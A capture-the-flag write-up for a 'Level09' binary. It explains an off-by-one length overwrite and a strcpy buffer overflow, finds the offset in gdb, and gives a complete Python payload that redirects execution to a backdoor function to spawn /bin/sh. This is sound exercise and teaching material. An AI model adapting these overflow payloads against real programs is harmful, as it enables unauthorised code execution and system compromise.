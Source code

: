 # Level09

## What the binary does
After reversing the binary, we can see it lets you input a username, then a message to send.
Looking deeper in the code and functions, we can see a function "secret_backdoor" that gets a string in the standard entry, and executes it with a call on the system function
So our goal is to jump on the secret_backdoor function

## Finding the exploit
The buffer inside the handle_msg function is not secure and dangerous because it is initialized with a size of 140, stores a value at buffer[180] and then, in the set_username function it stores our input from buffer[140] to buffer[181]
In the set_msg function, the call on strcpy does copy message in our buffer with a the size of the value stored at buffer[180]
We then will have to store a big value in buffer[180] (```\xff```) so we will be able to overflow on the return address in the set_username function

## Finding the offset
To find the offset, we use once more the Buffer overflow pattern generator tool from wiremask.
In gdb, running with : 
```(python -c 'print "A" * 40 + "\xd0"'; python -c 'print "OVERFLOW PATTERN"';)```
Does segfault at  ```0x4138674137674136```, which gives us an offset of 200.

## Crafting the payload
To find the address of the secret_backdoor function, we run the program with gdb after breaking on the main function. Then we can see it's address is : 0x000055555555488c
In little endian, the address is : \x8c\x48\x55\x55\x55\x55\x00\x00
Also, we have to provide the command we want the system call to execute, ```/bin/sh``` and a cat to block the standard input


## Final payload
So the final payload is :
```(python -c 'print "A" * 40 + "\xff"'; python -c 'print "\x90" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; python -c 'print "/bin/sh"'; cat) | ./level09```